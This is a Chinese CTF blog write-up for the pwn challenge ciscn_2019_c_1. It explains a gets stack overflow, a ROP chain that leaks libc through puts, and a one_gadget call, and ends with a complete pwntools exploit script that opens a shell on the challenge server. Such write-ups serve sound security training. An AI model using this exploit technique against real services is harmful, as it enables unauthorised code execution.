 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      ciscn_2019_c_1 WriteUp				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-3.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - ROP攻击
    - libc泄漏
---
```


# ciscn_2019_c_1 WriteUp

## 考点

- libc版本泄漏
- ROP攻击
- onegadget使用

## 解题过程

1. 使用`checksec`工具进行查看，程序为64位，NX保护

![checksec](/img/2023-10-23-ciscn_2019_c_1/images/checksec.png)

2. 使用ida工具反编译。

`main`:

![main](/img/2023-10-23-ciscn_2019_c_1/images/main.png)

`encrypt`：

![encrypt](/img/2023-10-23-ciscn_2019_c_1/images/encrypt.png)

​		可以看出程序功能为对输入字符串进行加密，而加密`encrypt`函数中的get存在栈溢出漏洞。

3. 由于在程序中找不到`system`函数和`/bin/sh`字符串，所以需要进行ROP攻击，泄漏其libc地址，使用onegadget工具直接获取shell。
4. 使用ROPgadget工具获取泄漏libc地址所需的指令地址(`pop rdi`; )，然后获取程序中put_got表和put_plt表地址，执行栈溢出payload构造如下

```python
payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
```

​		注意最后需要加上encrypt函数使程序重新回到漏洞函数处。

5. 获取libc基址后，再次进入漏洞函数，然后执行onegadget指令。获取shell。

## 结果

**构造脚本如下**

`python`：

```python
from pwn import *

context(arch="amd64", log_level="debug")
# p = process("./ciscn_2019_c_1")
p = remote("node4.buuoj.cn", 26936)

one_gadget = 0x10a38c  # 0x4f322, 0x4f2c5, 0x10a38c
pop_rdi = 0x400c83
encrypt = 0x4009A0

elf = ELF('./ciscn_2019_c_1')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

libc = ELF('./libc-2.27.so')
puts_offset = libc.symbols['puts']

payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
# gdb.attach(p, 'b *0x4009DD')
p.sendlineafter(b"Input your choice!", b'1')
p.sendlineafter(b'Input your Plaintext to be encrypted', payload)
p.recvuntil("\nCiphertext\n\n")
puts_addr = p.recv(6)
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
success(hex(puts_addr))
libc_addr = puts_addr - puts_offset
success(hex(libc_addr))

one_gadget = libc_addr + one_gadget

payload = flat(b"\0", b'a'*(0x50-1), 0x0, one_gadget)
p.sendlineafter(b"Input your Plaintext to be encrypted", payload)


p.interactive()
```

成功获取flag

![result](/img/2023-10-23-ciscn_2019_c_1/images/result.png)
